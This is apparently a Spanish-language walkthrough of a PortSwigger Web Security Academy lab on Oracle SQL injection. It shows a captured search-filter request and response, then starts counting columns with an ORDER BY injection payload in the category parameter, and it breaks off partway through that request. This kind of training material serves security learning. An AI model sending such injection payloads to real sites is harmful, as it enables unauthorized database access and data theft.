 ```yaml
---
description: >-
  https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle
---
```


# Lab 6: SQL injection attack, listing the database contents on Oracle

Se inicia el laboratorio y al interactuar con los filtros de busqueda:

Se genera la siguiente peticion:

```
GET /filter?category=Lifestyle HTTP/2
Host: 0a76002004acf6bd82c6fb1900d600e1.web-security-academy.net
Cookie: session=4r7p479MteGfJHw186eSSaLBr06RDplw
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a76002004acf6bd82c6fb1900d600e1.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

Lo anterior responde asi:

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 8917

```

Empezamos a validar el numero de campos con ORDER BY:

```
GET /filter?category='+order+by+1-- HTTP/2
Host: 0a76002004acf6bd82c6fb1900d600e1.web-security-academy.net
Cookie: session=4r7p479MteGfJHw186eSSaLBr06RDplw
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
```